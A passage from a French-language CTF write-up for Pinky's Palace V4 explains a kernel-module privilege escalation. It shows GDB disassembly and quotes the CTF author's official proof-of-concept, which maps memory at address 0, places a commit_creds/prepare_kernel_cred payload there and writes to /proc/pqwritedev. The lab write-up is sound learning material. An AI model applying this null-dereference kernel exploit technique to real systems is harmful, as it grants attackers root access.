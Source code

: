 GDB nous donne ceci, ce qui n'est pas forcément plus parlant :

```nasm
gdb-peda$ disass qwrite
Dump of assembler code for function qwrite:
   0x00000030 <+0>:     push   ebp
   0x00000031 <+1>:     mov    ebp,esp
   0x00000033 <+3>:     push   ebx
   0x00000034 <+4>:     call   0x35 <qwrite+5>
   0x00000039 <+9>:     mov    eax,ds:0x0
   0x0000003e <+14>:    mov    ebx,ecx
   0x00000040 <+16>:    call   0x41 <qwrite+17>
   0x00000045 <+21>:    mov    eax,ebx
   0x00000047 <+23>:    pop    ebx
   0x00000048 <+24>:    pop    ebp
   0x00000049 <+25>:    ret    
End of assembler dump.
```

Après avoir lu [Pinky’s Palace V4 Writeup by Lijnk](https://medium.com/@lijnk/pinkys-palace-v4-writeup-1cef1dab06ff) il semble que le module saute sur l'adresse mémoire 0 et exécute les instructions qui s'y trouvent.

Les instructions à passer pour devenir root correspondent à `prepare_kernel_cred(commit_creds(0))`. Obtenir l'adresse des fonctions se fait en lisant `/proc/kallsyms`.

Il faut aussi faire en sorte de sortir proprement de la fonction pour ne pas causer un kernel panic.

Sur le Github de l'auteur du CTF on trouve [une solution officielle](https://github.com/PinkP4nther/Pinkys-Palacev4-PoCs/blob/master/pqwd_ex.c) qui consiste à mapper la mémoire à l'adresse 0, y placer le code assembleur puis écrire sur `/proc/pqwritedev` :

```c
	printf("[+] Mapping 1 page (4KB) of memory @ 0x00000000\n");
	mmap(0, 4096, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
	
	printf("[+] Writing payload to allocated page @ 0x00000000\n");
	memcpy(0,pay,sizeof(pay));
	
	printf("[+] Opening target proc entry\n");
	int fd=open("/proc/pqwritedev",O_WRONLY);
	
	printf("[+] Writing to vulnerable driver\n");
	write(fd,"foo",3);
```

Même si je n'ai pas eu cette partie, l'exploitation du binaire était intéressante :)

